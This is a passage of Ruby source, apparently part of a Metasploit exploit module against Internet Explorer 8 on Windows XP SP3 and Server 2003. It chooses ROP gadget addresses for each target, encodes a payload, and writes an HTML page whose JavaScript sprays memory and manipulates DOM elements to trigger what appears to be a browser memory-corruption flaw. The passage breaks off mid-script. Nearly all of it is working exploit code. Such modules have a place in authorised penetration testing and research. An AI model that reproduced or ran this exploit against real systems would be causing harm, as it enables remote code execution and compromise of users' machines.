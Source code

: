 ```Ruby
      code << rand_text_alpha(12000)

      rop_payload = generate_rop_payload('java', code)
    end

    return rop_payload
  end

  def load_exploit_html(my_target, cli)
    case my_target['Rop']
    when :msvcrt
      case my_target.name
      when 'IE 8 on Windows XP SP3'
        align_esp = Rex::Text.to_unescape([0x77c4d801].pack("V*")) # ADD ESP, 2C; RET
        xchg_esp  = Rex::Text.to_unescape([0x77c15ed5].pack("V*")) # XCHG EAX, ESP, RET
      when 'IE 8 on Windows Server 2003'
        align_esp = Rex::Text.to_unescape([0x77bde7f6].pack("V*"))
        xchg_esp  = Rex::Text.to_unescape([0x77bcba5e].pack("V*"))
      end
    else
      align_esp = Rex::Text.to_unescape([0x7C3445F8].pack("V*"))
      xchg_esp  = Rex::Text.to_unescape([0x7C348B05].pack("V*"))
    end

    padding    = Rex::Text.to_unescape(Rex::Text.rand_text_alpha(4))
    js_payload = Rex::Text.to_unescape(get_payload(my_target, cli))


    html = %Q|
    <!doctype html>
    <HTML XMLNS:t ="urn:schemas-microsoft-com:time">
    <head>
    <meta>
      <?IMPORT namespace="t" implementation="#default#time2">
    </meta>
    <script>
    #{js_mstime_malloc}

    function helloWorld()
    {
      sparkle = unescape("ABCD");
      for (i=0; i < 2; i++) {
        sparkle += unescape("ABCD");
      }
      sparkle += unescape("AB");
      sparkle += unescape("#{js_payload}");
      magenta = unescape("#{align_esp}");
      for (i=0; i < 0x70/4; i++) {
        if (i == 0x70/4-1) { magenta += unescape("#{xchg_esp}"); }
        else               { magenta += unescape("#{align_esp}"); }
      }
      magenta += sparkle;

      document.body.contentEditable="true";
      f0 = document.createElement('span');
      f1 = document.createElement('span');
      f2 = document.createElement('span');
      document.body.appendChild(f0);
      document.body.appendChild(f1);
      document.body.appendChild(f2);
      for (i=0; i < 20; i++) { document.createElement("img"); }
      f2.appendChild(document.createElement('datalist'));
      f1.appendChild(document.createElement('span'));
```